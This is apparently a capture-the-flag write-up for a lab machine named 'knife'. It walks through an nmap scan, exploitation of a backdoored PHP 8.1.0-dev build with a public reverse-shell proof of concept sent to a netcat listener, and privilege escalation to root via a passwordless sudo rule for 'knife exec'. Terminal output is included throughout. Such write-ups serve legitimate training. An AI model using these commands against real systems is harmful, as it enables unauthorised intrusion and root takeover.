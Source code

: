 ## Default Information
IP address : 10.10.10.242\
Operating system : Linux

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.242 -vv
```
From the output of ```nmap```, we are able to know the following informtion about the ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 80	| HTTP | Apache httpd 2.4.41 (Ubuntu) |

## Discovery
Visting the website does not yield any promising results as there are only 2 urls that can be found --> ```http://10.10.10.242``` and ```http://10.10.10.242/robots.txt```\
Next, we will scan the website with ```Nikto``` to uncover potential vulnerabilities in the website and the web server used. The following interesting information were uncovered:
```code
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
```

## Exploitation
CVE 2020-1927 was found to be related to ```Apache/2.4.41```, but it was found not to be exploitable on the website.\
However, we were able to find a POC [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) for ```PHP/8.1.0-dev```
```code
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
mv backdoor_php_8.1.0-dev.py exploit_rce.py 
mv revshell_php_8.1.0-dev.py exploit_revshell.py 
```
Now, we have to set up a listener on the attacker's machine
```code
nc -nlvp 3000
```
Afterwards, we will execute the exploit script on the victim's macchine to obtain a reverse shell on the attacker's machine
```code
python3 exploit_revshell.py http://10.10.10.242 10.10.16.250 3000 
```
We will now have to stabilize the shell and obtain the user flag.
```code
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.242] 48826
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ cd home
cd home
james@knife:/home$ ls
ls
james
james@knife:/home$ cd james
cd james
james@knife:~$ ls
ls
user.txt
james@knife:~$ cat user.txt
cat user.txt
```
However, we have not discovered the system flag yet! However, we noticed something interesting when we run ```sudo -l```. The command ```/usr/bin/kniife``` allows any user to execute with root privileges, without the need for any password.
```code
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Searching up the documentation for ```knife```, we realise that there is a [knife exec](https://docs.chef.io/workstation/knife_exec/) command that allows us to execute scripts using ```knife```, which can allow us to obtain a root shell
```code
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```
We will then stabilize the root shell and obtain the system flag.
```code
james@knife:~$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh  root.txt  snap
root@knife:~# cat root.txt
cat root.txt
```
